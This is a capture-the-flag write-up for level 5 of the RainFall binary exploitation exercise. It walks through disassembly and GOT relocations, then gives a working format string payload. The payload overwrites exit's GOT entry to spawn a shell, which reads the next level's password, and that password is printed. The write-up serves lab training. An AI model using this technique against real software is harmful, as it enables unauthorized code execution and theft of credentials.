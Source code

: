 # Level 5

Once logged in, you will see a binary `level5`.

```
$ ssh level5@localhost -p 4242
	  _____       _       ______    _ _
	 |  __ \     (_)     |  ____|  | | |
	 | |__) |__ _ _ _ __ | |__ __ _| | |
	 |  _  /  _` | | '_ \|  __/ _` | | |
	 | | \ \ (_| | | | | | | | (_| | | |
	 |_|  \_\__,_|_|_| |_|_|  \__,_|_|_|

                 Good luck & Have fun

  To start, ssh with level0/level0 on localhost:4242
level5@localhost's password:
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level5/level5
```

Once running the binary, it does the same thing as level 4.

```
level5@RainFall:~$ ./level5
aaaaaaaaaaaa
aaaaaaaaaaaa
level5@RainFall:~$
```

Let's take a look at the assembly:

```
gdb-peda$ info functions
...
0x080484a4  o
0x080484c2  n
0x08048504  main
...
0x080485cc  _fini
```

There are three function declared in the program, so let's take a look at each.

```
gdb-peda$ disass main
Dump of assembler code for function main:
   0x08048504 <+0>:	push   ebp
   0x08048505 <+1>:	mov    ebp,esp
   0x08048507 <+3>:	and    esp,0xfffffff0
   0x0804850a <+6>:	call   0x80484c2 <n>
   0x0804850f <+11>:	leave
   0x08048510 <+12>:	ret
End of assembler dump.
gdb-peda$
```

```
gdb-peda$ disass n
Dump of assembler code for function n:
   0x080484c2 <+0>:	push   ebp
   0x080484c3 <+1>:	mov    ebp,esp
   0x080484c5 <+3>:	sub    esp,0x218
   0x080484cb <+9>:	mov    eax,ds:0x8049848
   0x080484d0 <+14>:	mov    DWORD PTR [esp+0x8],eax
   0x080484d4 <+18>:	mov    DWORD PTR [esp+0x4],0x200
   0x080484dc <+26>:	lea    eax,[ebp-0x208]
   0x080484e2 <+32>:	mov    DWORD PTR [esp],eax
   0x080484e5 <+35>:	call   0x80483a0 <fgets@plt>
   0x080484ea <+40>:	lea    eax,[ebp-0x208]
   0x080484f0 <+46>:	mov    DWORD PTR [esp],eax
   0x080484f3 <+49>:	call   0x8048380 <printf@plt>
   0x080484f8 <+54>:	mov    DWORD PTR [esp],0x1
   0x080484ff <+61>:	call   0x80483d0 <exit@plt>
End of assembler dump.

gdb-peda$ x 0x8049848
0x8049848 <stdin@@GLIBC_2.0>:	0x00000000
```

```
gdb-peda$ disass o
Dump of assembler code for function o:
   0x080484a4 <+0>:	push   ebp
   0x080484a5 <+1>:	mov    ebp,esp
   0x080484a7 <+3>:	sub    esp,0x18
   0x080484aa <+6>:	mov    DWORD PTR [esp],0x80485f0
   0x080484b1 <+13>:	call   0x80483b0 <system@plt>
   0x080484b6 <+18>:	mov    DWORD PTR [esp],0x1
   0x080484bd <+25>:	call   0x8048390 <_exit@plt>
End of assembler dump.
gdb-peda$ x/s 0x80485f0
0x80485f0:	 "/bin/sh"
```

By decompiling the code, we find that the function `n` is called, but unfortunately the `o` function is never called. In this exploit, we will replace the address of the call to `exit()` with the address of `o`.

We'll accomplish this by filling in the GOT (Global Offset Table) cache before it gets written. Below is an explanation of GOT [from here](https://www.mattandreko.com/2012/02/02/exploit-exercises-protostar-format-4/):
> When the program runs for the first time, the GOT is initialized to 0x00000000 for every external function, such as libc functions. The first time it runs that function, it will cache the memory address in the GOT, so that it doesn’t have to ask libc, or the corresponding library each time. If we overwrite the GOT value, we can make it execute arbitrary code instead of that original function.

The memory address of `exit()` can be acquired by using `objdump`

```
level5@RainFall:~$ objdump -R ./level5

./level5:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE
08049814 R_386_GLOB_DAT    __gmon_start__
08049848 R_386_COPY        stdin
08049824 R_386_JUMP_SLOT   printf
08049828 R_386_JUMP_SLOT   _exit
0804982c R_386_JUMP_SLOT   fgets
08049830 R_386_JUMP_SLOT   system
08049834 R_386_JUMP_SLOT   __gmon_start__
08049838 R_386_JUMP_SLOT   exit
0804983c R_386_JUMP_SLOT   __libc_start_main
```

So the cache address for `exit` in the GOT is `0x08049838`.

The only thing left is to overwrite the address `0x08049838` (address of exit) with the value `0x080484a4` (address of `o`) using a format string exploit, the same technique used by last problem.

```
Python 3.10.4 (v3.10.4:9d38120e33, Mar 23 2022, 17:29:05) [Clang 13.0.0 (clang-1300.0.29.30)] on darwin
Type "help", "copyright", "credits" or "license" for more information.
>>> 0x080484a4
134513828
```

`0x80484a4` is `134513828` in decimal, which is the value that needs to be written on `0x08049838`, which is `\x38\x98\x04\x08` in little endian. Note that we'll fill in the `134513824` bytes of padding with the same format trick as in the last level. The last thing we need is the offset:

```
level5@RainFall:~$ (python -c 'print "BBBB" + "%x " * 8') | ./level5
BBBB200 b7fd1ac0 b7ff37d0 42424242 25207825 78252078 20782520 25207825
```

Armed with our offset of `4` from above, voilà our exploit:

```
level5@RainFall:~$ (python -c 'print "\x38\x98\x04\x08" + "%0134513824x%4$n"'; echo "cat /home/user/level6/.pass") | ./level5
[...]0000000000000000000000000000000000000000000000000000000000000000000000000200
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
level5@RainFall:~$
```
